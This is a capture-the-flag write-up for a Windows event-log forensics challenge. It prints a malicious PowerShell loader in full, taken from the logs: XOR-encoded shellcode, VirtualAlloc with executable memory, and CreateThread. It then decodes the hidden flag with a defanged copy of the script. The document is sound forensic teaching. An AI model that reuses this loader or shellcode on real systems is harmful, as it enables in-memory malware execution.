

## CHALLENGE INFO
> Planet Longhir is known for it's top-tier researchers.
> Due to their dedication in science and engineering, their military equipment is the most advanced one in the galaxy.
> In fact, the prototype DES-3000, a self-propelled precision-strike missile that is capable of reaching targets even in Ratnik galaxy, is being used to disable Galactic Federation's communication satellites.
> The mystery that Miyuki is trying to solve is, how the satellite's location was leaked since it is a top-sercret that only Galactic Federation's council is aware of.
> Help her analyse the Council's HQ event logs and solve this mystery.

--- 

We are provided with a zip file `forensics_puppeteer.zip` containing a directory called `Logs` containing windows event log files. As can be seen in the picture below.

Going for the low hanging fruit, I search for the powershell event logs, showing me the following files to search through.

Opening the `Microsoft-Windows-PowerShell%4Operational.evtx` and clickign through the few alerts being logged i note a suspicious looking script being run called `Path: C:\sysmgr\special_orders.ps1`
The contents of this script can be seen below.
```PowerShell
Creating Scriptblock text (1 of 1):
$OleSPrlmhB = @"
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
"@

[byte[]] $stage1 = 0x99, 0x85, 0x93, 0xaa, 0xb3, 0xe2, 0xa6, 0xb9, 0xe5, 0xa3, 0xe2, 0x8e, 0xe1, 0xb7, 0x8e, 0xa5, 0xb9, 0xe2, 0x8e, 0xb3;
[byte[]] $stage2 = 0xac, 0xff, 0xff, 0xff, 0xe2, 0xb2, 0xe0, 0xa5, 0xa2, 0xa4, 0xbb, 0x8e, 0xb7, 0xe1, 0x8e, 0xe4, 0xa5, 0xe1, 0xe1;

$tNZvQCljVk = Add-Type -memberDefinition $OleSPrlmhB -Name "Win32" -namespace Win32Functions -passthru;

[Byte[]] $HVOASfFuNSxRXR = 0x2d,0x99,0x52,0x35,0x21,0x39,0x1d,0xd1,0xd1,0xd1,0x90,0x80,0x90,0x81,0x83,0x99,0xe0,0x03,0xb4,0x99,0x5a,0x83,0xb1,0x99,0x5a,0x83,0xc9,0x80,0x87,0x99,0x5a,0x83,0xf1,0x99,0xde,0x66,0x9b,0x9b,0x9c,0xe0,0x18,0x99,0x5a,0xa3,0x81,0x99,0xe0,0x11,0x7d,0xed,0xb0,0xad,0xd3,0xfd,0xf1,0x90,0x10,0x18,0xdc,0x90,0xd0,0x10,0x33,0x3c,0x83,0x99,0x5a,0x83,0xf1,0x90,0x80,0x5a,0x93,0xed,0x99,0xd0,0x01,0xb7,0x50,0xa9,0xc9,0xda,0xd3,0xde,0x54,0xa3,0xd1,0xd1,0xd1,0x5a,0x51,0x59,0xd1,0xd1,0xd1,0x99,0x54,0x11,0xa5,0xb6,0x99,0xd0,0x01,0x5a,0x99,0xc9,0x81,0x95,0x5a,0x91,0xf1,0x98,0xd0,0x01,0x32,0x87,0x99,0x2e,0x18,0x9c,0xe0,0x18,0x90,0x5a,0xe5,0x59,0x99,0xd0,0x07,0x99,0xe0,0x11,0x90,0x10,0x18,0xdc,0x7d,0x90,0xd0,0x10,0xe9,0x31,0xa4,0x20,0x9d,0xd2,0x9d,0xf5,0xd9,0x94,0xe8,0x00,0xa4,0x09,0x89,0x95,0x5a,0x91,0xf5,0x98,0xd0,0x01,0xb7,0x90,0x5a,0xdd,0x99,0x95,0x5a,0x91,0xcd,0x98,0xd0,0x01,0x90,0x5a,0xd5,0x59,0x90,0x89,0x90,0x89,0x8f,0x88,0x99,0xd0,0x01,0x8b,0x90,0x89,0x90,0x88,0x90,0x8b,0x99,0x52,0x3d,0xf1,0x90,0x83,0x2e,0x31,0x89,0x90,0x88,0x8b,0x99,0x5a,0xc3,0x38,0x9a,0x2e,0x2e,0x2e,0x8c,0x98,0x6f,0xa6,0xa2,0xe3,0x8e,0xe2,0xe3,0xd1,0xd1,0x90,0x87,0x98,0x58,0x37,0x99,0x50,0x3d,0x71,0xd0,0xd1,0xd1,0x98,0x58,0x34,0x98,0x6d,0xd3,0xd1,0xd4,0xe8,0x11,0x79,0xd1,0xc3,0x90,0x85,0x98,0x58,0x35,0x9d,0x58,0x20,0x90,0x6b,0x9d,0xa6,0xf7,0xd6,0x2e,0x04,0x9d,0x58,0x3b,0xb9,0xd0,0xd0,0xd1,0xd1,0x88,0x90,0x6b,0xf8,0x51,0xba,0xd1,0x2e,0x04,0xbb,0xdb,0x90,0x8f,0x81,0x81,0x9c,0xe0,0x18,0x9c,0xe0,0x11,0x99,0x2e,0x11,0x99,0x58,0x13,0x99,0x2e,0x11,0x99,0x58,0x10,0x90,0x6b,0x3b,0xde,0x0e,0x31,0x2e,0x04,0x99,0x58,0x16,0xbb,0xc1,0x90,0x89,0x9d,0x58,0x33,0x99,0x58,0x28,0x90,0x6b,0x48,0x74,0xa5,0xb0,0x2e,0x04,0x54,0x11,0xa5,0xdb,0x98,0x2e,0x1f,0xa4,0x34,0x39,0x42,0xd1,0xd1,0xd1,0x99,0x52,0x3d,0xc1,0x99,0x58,0x33,0x9c,0xe0,0x18,0xbb,0xd5,0x90,0x89,0x99,0x58,0x28,0x90,0x6b,0xd3,0x08,0x19,0x8e,0x2e,0x04,0x52,0x29,0xd1,0xaf,0x84,0x99,0x52,0x15,0xf1,0x8f,0x58,0x27,0xbb,0x91,0x90,0x88,0xb9,0xd1,0xc1,0xd1,0xd1,0x90,0x89,0x99,0x58,0x23,0x99,0xe0,0x18,0x90,0x6b,0x89,0x75,0x82,0x34,0x2e,0x04,0x99,0x58,0x12,0x98,0x58,0x16,0x9c,0xe0,0x18,0x98,0x58,0x21,0x99,0x58,0x0b,0x99,0x58,0x28,0x90,0x6b,0xd3,0x08,0x19,0x8e,0x2e,0x04,0x52,0x29,0xd1,0xac,0xf9,0x89,0x90,0x86,0x88,0xb9,0xd1,0x91,0xd1,0xd1,0x90,0x89,0xbb,0xd1,0x8b,0x90,0x6b,0xda,0xfe,0xde,0xe1,0x2e,0x04,0x86,0x88,0x90,0x6b,0xa4,0xbf,0x9c,0xb0,0x2e,0x04,0x98,0x2e,0x1f,0x38,0xed,0x2e,0x2e,0x2e,0x99,0xd0,0x12,0x99,0xf8,0x17,0x99,0x54,0x27,0xa4,0x65,0x90,0x2e,0x36,0x89,0xbb,0xd1,0x88,0x98,0x16,0x13,0x21,0x64,0x73,0x87,0x2e,0x04;

[array]::Reverse($stage2);

$hRffYLENA = $tNZvQCljVk::VirtualAlloc(0,[Math]::Max($HVOASfFuNSxRXR.Length,0x1000),0x3000,0x40);

$stage3 = $stage1 + $stage2;

[System.Runtime.InteropServices.Marshal]::Copy($HVOASfFuNSxRXR,0,$hRffYLENA,$HVOASfFuNSxRXR.Length);


# Unpack Shellcode;

for($i=0; $i -lt $HVOASfFuNSxRXR.count ; $i++)
{
    $HVOASfFuNSxRXR[$i] = $HVOASfFuNSxRXR[$i] -bxor 0xd1;
}

#Unpack Special Orders!

for($i=0;$i -lt $stage3.count;$i++){
    $stage3[$i] = $stage3[$i] -bxor 0xd1;
}

$tNZvQCljVk::CreateThread(0,0,$hRffYLENA,0,0,0);


ScriptBlock ID: 3f384b05-3a00-4a65-bbf7-e31b331ac923
Path: C:\sysmgr\special_orders.ps1
```
It looks like the script is doing some manipulations to the byte arrays mentioned above.
Knowing a little powershell you can make the powershell script do all the work for you, and give the output of the unpacking routine for you. I just remove the event log added comments, and remove the CreateThread function since I do not want it to execute any code on my VM and then replace that with a  `$stage3|Write-Host`  to print the final unpacked code.
## Solution script
```PowerShell
$OleSPrlmhB = @"
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
"@

[byte[]] $stage1 = 0x99, 0x85, 0x93, 0xaa, 0xb3, 0xe2, 0xa6, 0xb9, 0xe5, 0xa3, 0xe2, 0x8e, 0xe1, 0xb7, 0x8e, 0xa5, 0xb9, 0xe2, 0x8e, 0xb3;
[byte[]] $stage2 = 0xac, 0xff, 0xff, 0xff, 0xe2, 0xb2, 0xe0, 0xa5, 0xa2, 0xa4, 0xbb, 0x8e, 0xb7, 0xe1, 0x8e, 0xe4, 0xa5, 0xe1, 0xe1;

$tNZvQCljVk = Add-Type -memberDefinition $OleSPrlmhB -Name "Win32" -namespace Win32Functions -passthru;

[Byte[]] $HVOASfFuNSxRXR = 0x2d,0x99,0x52,0x35,0x21,0x39,0x1d,0xd1,0xd1,0xd1,0x90,0x80,0x90,0x81,0x83,0x99,0xe0,0x03,0xb4,0x99,0x5a,0x83,0xb1,0x99,0x5a,0x83,0xc9,0x80,0x87,0x99,0x5a,0x83,0xf1,0x99,0xde,0x66,0x9b,0x9b,0x9c,0xe0,0x18,0x99,0x5a,0xa3,0x81,0x99,0xe0,0x11,0x7d,0xed,0xb0,0xad,0xd3,0xfd,0xf1,0x90,0x10,0x18,0xdc,0x90,0xd0,0x10,0x33,0x3c,0x83,0x99,0x5a,0x83,0xf1,0x90,0x80,0x5a,0x93,0xed,0x99,0xd0,0x01,0xb7,0x50,0xa9,0xc9,0xda,0xd3,0xde,0x54,0xa3,0xd1,0xd1,0xd1,0x5a,0x51,0x59,0xd1,0xd1,0xd1,0x99,0x54,0x11,0xa5,0xb6,0x99,0xd0,0x01,0x5a,0x99,0xc9,0x81,0x95,0x5a,0x91,0xf1,0x98,0xd0,0x01,0x32,0x87,0x99,0x2e,0x18,0x9c,0xe0,0x18,0x90,0x5a,0xe5,0x59,0x99,0xd0,0x07,0x99,0xe0,0x11,0x90,0x10,0x18,0xdc,0x7d,0x90,0xd0,0x10,0xe9,0x31,0xa4,0x20,0x9d,0xd2,0x9d,0xf5,0xd9,0x94,0xe8,0x00,0xa4,0x09,0x89,0x95,0x5a,0x91,0xf5,0x98,0xd0,0x01,0xb7,0x90,0x5a,0xdd,0x99,0x95,0x5a,0x91,0xcd,0x98,0xd0,0x01,0x90,0x5a,0xd5,0x59,0x90,0x89,0x90,0x89,0x8f,0x88,0x99,0xd0,0x01,0x8b,0x90,0x89,0x90,0x88,0x90,0x8b,0x99,0x52,0x3d,0xf1,0x90,0x83,0x2e,0x31,0x89,0x90,0x88,0x8b,0x99,0x5a,0xc3,0x38,0x9a,0x2e,0x2e,0x2e,0x8c,0x98,0x6f,0xa6,0xa2,0xe3,0x8e,0xe2,0xe3,0xd1,0xd1,0x90,0x87,0x98,0x58,0x37,0x99,0x50,0x3d,0x71,0xd0,0xd1,0xd1,0x98,0x58,0x34,0x98,0x6d,0xd3,0xd1,0xd4,0xe8,0x11,0x79,0xd1,0xc3,0x90,0x85,0x98,0x58,0x35,0x9d,0x58,0x20,0x90,0x6b,0x9d,0xa6,0xf7,0xd6,0x2e,0x04,0x9d,0x58,0x3b,0xb9,0xd0,0xd0,0xd1,0xd1,0x88,0x90,0x6b,0xf8,0x51,0xba,0xd1,0x2e,0x04,0xbb,0xdb,0x90,0x8f,0x81,0x81,0x9c,0xe0,0x18,0x9c,0xe0,0x11,0x99,0x2e,0x11,0x99,0x58,0x13,0x99,0x2e,0x11,0x99,0x58,0x10,0x90,0x6b,0x3b,0xde,0x0e,0x31,0x2e,0x04,0x99,0x58,0x16,0xbb,0xc1,0x90,0x89,0x9d,0x58,0x33,0x99,0x58,0x28,0x90,0x6b,0x48,0x74,0xa5,0xb0,0x2e,0x04,0x54,0x11,0xa5,0xdb,0x98,0x2e,0x1f,0xa4,0x34,0x39,0x42,0xd1,0xd1,0xd1,0x99,0x52,0x3d,0xc1,0x99,0x58,0x33,0x9c,0xe0,0x18,0xbb,0xd5,0x90,0x89,0x99,0x58,0x28,0x90,0x6b,0xd3,0x08,0x19,0x8e,0x2e,0x04,0x52,0x29,0xd1,0xaf,0x84,0x99,0x52,0x15,0xf1,0x8f,0x58,0x27,0xbb,0x91,0x90,0x88,0xb9,0xd1,0xc1,0xd1,0xd1,0x90,0x89,0x99,0x58,0x23,0x99,0xe0,0x18,0x90,0x6b,0x89,0x75,0x82,0x34,0x2e,0x04,0x99,0x58,0x12,0x98,0x58,0x16,0x9c,0xe0,0x18,0x98,0x58,0x21,0x99,0x58,0x0b,0x99,0x58,0x28,0x90,0x6b,0xd3,0x08,0x19,0x8e,0x2e,0x04,0x52,0x29,0xd1,0xac,0xf9,0x89,0x90,0x86,0x88,0xb9,0xd1,0x91,0xd1,0xd1,0x90,0x89,0xbb,0xd1,0x8b,0x90,0x6b,0xda,0xfe,0xde,0xe1,0x2e,0x04,0x86,0x88,0x90,0x6b,0xa4,0xbf,0x9c,0xb0,0x2e,0x04,0x98,0x2e,0x1f,0x38,0xed,0x2e,0x2e,0x2e,0x99,0xd0,0x12,0x99,0xf8,0x17,0x99,0x54,0x27,0xa4,0x65,0x90,0x2e,0x36,0x89,0xbb,0xd1,0x88,0x98,0x16,0x13,0x21,0x64,0x73,0x87,0x2e,0x04;

[array]::Reverse($stage2);

$hRffYLENA = $tNZvQCljVk::VirtualAlloc(0,[Math]::Max($HVOASfFuNSxRXR.Length,0x1000),0x3000,0x40);

$stage3 = $stage1 + $stage2;

[System.Runtime.InteropServices.Marshal]::Copy($HVOASfFuNSxRXR,0,$hRffYLENA,$HVOASfFuNSxRXR.Length);


# Unpack Shellcode;

for($i=0; $i -lt $HVOASfFuNSxRXR.count ; $i++)
{
    $HVOASfFuNSxRXR[$i] = $HVOASfFuNSxRXR[$i] -bxor 0xd1;
}

#Unpack Special Orders!

for($i=0;$i -lt $stage3.count;$i++){
    $stage3[$i] = $stage3[$i] -bxor 0xd1;
}

$stage3|Write-Host
```

The script will output the following char array

```ASCII
72
84
66
123
98
51
119
104
52
114
51
95
48
102
95
116
104
51
95
98
48
48
116
53
95
48
102
95
106
117
115
116
49
99
51
46
46
46
125
```

Then knowing common number base representations this looks like base 10, which we can quickly be decoded in [CyberChef](https://gchq.github.io/CyberChef/) like so giving us the flag.


`HTB{b3wh4r3_0f_th3_b00t5_0f_just1c3...}`